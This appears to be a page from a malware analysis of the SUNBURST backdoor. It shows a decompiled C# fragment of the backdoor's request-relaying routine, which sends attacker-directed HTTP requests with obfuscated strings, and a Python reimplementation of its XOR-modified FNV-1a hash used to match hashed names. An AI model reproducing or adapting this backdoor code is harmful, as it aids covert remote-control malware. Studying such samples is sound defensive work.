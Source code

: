 ```csharp
							httpWebRequest.KeepAlive = (hash2 == 13852439084267373191UL || httpWebRequest.KeepAlive);
							httpWebRequest.KeepAlive = (hash2 != 14226582801651130532UL && httpWebRequest.KeepAlive);
						}
					}
					else
					{
						httpWebRequest.Referer = text4;
					}
				}
				else if (hash != 15514036435533858158UL)
				{
					if (hash == 16066522799090129502UL)
					{
						httpWebRequest.Date = DateTime.Parse(text4);
					}
				}
				else
				{
					httpWebRequest.Date = DateTime.Parse(text4);
				}
			}
		}
	}
	result += string.Format(OrionImprovementBusinessLayer.ZipHelper.Unzip("qzaoVag2rFXwCAkJ0K82quUCAA=="), httpWebRequest.Method, httpWebRequest.Address.PathAndQuery, httpWebRequest.ProtocolVersion.ToString());
	result = result + httpWebRequest.Headers.ToString() + "\n\n";
	if (!string.IsNullOrEmpty(text))
	{
		using (Stream requestStream = httpWebRequest.GetRequestStream())
		{
			byte[] array3 = Convert.FromBase64String(text);
			requestStream.Write(array3, 0, array3.Length);
		}
	}
	using (WebResponse response = httpWebRequest.GetResponse())
	{
		result += string.Format("{0} {1}\n", (int)((HttpWebResponse)response).StatusCode, ((HttpWebResponse)response).StatusDescription);
		result = result + response.Headers.ToString() + "\n";
		using (Stream responseStream = response.GetResponseStream())
		{
			result += new StreamReader(responseStream).ReadToEnd();
		}
	}
}
```
<br /><br />
UploadSystemDescription - Python fnv 64 hash logic
```python
def encrypt_fnv_64(string):
    hval = 14695981039346656037
    for letter in string:
        hval = hval ^ ord(letter)
        hval = (hval * 1099511628211) % (2 ** 64)
    return hval ^ 6605813339339102567
```
